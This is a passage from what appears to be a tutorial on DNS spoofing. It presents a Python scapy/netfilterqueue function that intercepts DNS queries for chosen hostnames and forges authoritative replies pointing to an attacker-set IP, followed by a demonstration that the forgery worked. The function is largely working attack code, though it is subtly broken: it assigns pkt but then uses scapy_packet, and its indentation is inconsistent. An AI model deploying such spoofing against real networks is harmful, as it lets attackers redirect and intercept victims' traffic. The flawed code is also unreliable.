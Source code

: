 
Let’s give it a try:

```bash
Got DNS request for b'padraig.io.'
Got DNS request for b'padraig.io.'
```

## Merging the scapy sniffer and nfqueue print_and_accept

Let’s merge the two functions together to get our final function:

```python{numberLines: true}
def dns_spoof(packet):
    # Convert the raw payload into a scapy packet
    data = packet.get_payload()
    pkt = IP(data)

      # Skip the packet if it doesn't have a DNS query response
      if not scapy_packet.haslayer(DNSQR):
          packet.accept()
          return
      # Skip the packet if doesn't have our target hostnames
      qname = scapy_packet.qd.qname.decode()
      if qname not in hostnames:
          packet.accept()
          return

      response_packet = (
          IP(src=scapy_packet[IP].dst, dst=scapy_packet[IP].src)
          / UDP(sport=scapy_packet[UDP].dport, dport=scapy_packet[UDP].sport)
          / DNS(
              qr=1,  # Response
              aa=1,  # Authoritative response
              id=scapy_packet[DNS].id,  # Copying the DNS id from the query
              qd=scapy_packet[DNS].qd,  # Copying the
              an=DNSRR(
                  ttl=10,  # Time To Live of the packet
                  rdata=redirect_ip,  # What IP to direct to
                  rrname=qname,  # The original hostname of the query
              ),
          )
      )
    packet.set_payload(bytes(response_packet))
    packet.accept()
```

Let’s give it one more try:

![nslookup showing padraig.io resolving to the forged IP address](./nslookup_1.png)
